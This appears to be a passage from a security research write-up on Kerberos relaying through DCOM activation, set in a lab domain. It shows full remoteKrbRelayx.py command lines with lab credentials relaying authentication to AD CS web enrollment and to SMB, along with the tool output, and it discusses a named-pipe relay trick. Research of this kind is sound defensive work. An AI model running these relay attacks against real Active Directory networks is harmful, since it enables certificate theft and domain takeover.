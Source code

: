 ```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@ofwindows1.cicada.vl' -relay-target 'http://dc-jpq225.cicada.vl/certsrv/' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1 -adcs -template User -victim rosie
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Auth type received not supported: 10
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/dc-jpq225.cicada.vl
[*] Starting attack against http://dc-jpq225.cicada.vl
[*] HTTP server returned status code 500, treating as a successful login
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[-] Error getting certificate! Make sure you have entered valid certificate template.
[*] Shutting down RPC Server
```

### The curious case of ncacn_np

In his talk on CertifiedDCOM Tianze Ding [noted](https://youtu.be/JQP3ZfM1V0U?t=1350) that you can respond to ResolveOxid2 with a named pipe, and then the server will authenticate:

- With the identity RPCSS (NETWORK SERVICE), i.e. the machine account.
- With impersonation level of RPC_C_IMP_LEVEL_IMPERSONATE, which means that it can be relayed.

If we e.g. use the clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 (SilverPotato) and do a cross-session attack it fails, per the discussion in the section on cross-relaying:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 3 -relay-target 'smb://ofwindows1.cicada.vl:4445'       
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Auth type received not supported: 10
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/ofwindows1.cicada.vl
[*] Starting attack against smb://ofwindows1.cicada.vl
[-] SMB SessionError: code: 0xc00000a5 - STATUS_BAD_IMPERSONATION_LEVEL - A specified impersonation level is invalid. Also used to indicate that a required impersonation level was not provided.
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Shutting down RPC Server
```

If we relay NTLM instead we can see what user it tried to log in:
